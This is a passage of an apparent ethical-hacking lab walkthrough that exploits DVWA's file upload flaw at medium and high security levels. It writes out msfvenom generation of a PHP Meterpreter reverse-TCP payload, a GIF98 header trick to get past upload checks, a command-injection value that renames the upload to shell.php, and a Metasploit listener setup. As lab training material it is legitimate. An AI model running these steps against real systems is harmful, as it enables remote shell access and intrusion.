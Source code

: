 - Switch back to the **Mozilla Firefox** window where the **DVWA** website is open. Open a new tab, type **http://10.10.10.16:8080/dvwa/hackable/uploads/medium.php** in the address bar, and press **Enter** to execute the uploaded payload.
- Switch back to the **Terminal** window and observe that a **Meterpreter session** has successfully been established with the victim system.
- In the meterpreter command line, type **sysinfo** and press **Enter** to view the system details of the victim machine.



#### Security level - high

- Open Terminal
	> sudo su
	> cd
	> msfvenom -p php/meterpreter/reverse_tcp LHOST= #hostip LPORT=2222 -f raw
	
- The raw payload is generated in the terminal window. Select the payload, right-click on it, and click **Copy** from the context menu to copy the payload.
- Now, in the terminal window, type **cd /home/attacker/Desktop/** and press **Enter** to navigate to the **Desktop**.
- Type **pluma high.jpeg** and press **Enter** to launch the **Pluma** text editor and paste the payload.
- Edit the payload file by adding **GIF98** to the first line and then press **Ctrl+S** to save the context.
- Click the **Firefox** icon from the top section of **Desktop**, type **http://10.10.10.16:8080/dvwa/login.php**. Into the address bar and press **Enter**.
- The **DVWA** login page appears; enter the **Username** and **Password** as **admin** and **password**. Click the **Login** button.
- The **Welcome to Damn Vulnerable Web Application!** Page appears. Click **DVWA Security** in the left pane to view the DVWA security level.
- Change the security level from impossible to low by selecting **high** from the drop-down list and clicking the **Submit** button.
- Click the **File Upload** option from the left pane.
- The **Vulnerability: File Upload** page appears; click the **Browse…** button to upload a file.
- When the **File Upload** window appears, navigate to the **Desktop** location, select the payload file **high.jpeg**, and click **Open**.
- Observe that the selected file (**high.jpeg**) appears to the right of **Browse…** button.
- Now, click the **Upload** button to upload the file to the database.
- You will see a message saying that the file has been uploaded successfully, with the location of the file. Note the location of the file and minimize the browser window.
- Now, click the **Command Injection** option in the left pane. The **Vulnerability: Command Injection** window appears; in the **Enter an IP address** field, type **|copy C:\wamp64\www\DVWA\hackable\uploads\high.jpeg C:\wamp64\www\DVWA\hackable\uploads\shell.php** and click the **Submit** button.
- Open Terminal
	> sudo su
	> cd
	> msfconsole 
	> use exploit/multi/handler (to set up listener)
	> set payload php/meterpreter/reverse_tcp
	> set LHOST #hostip 
	> set LPORT 2222
	> run (to start the listener)
	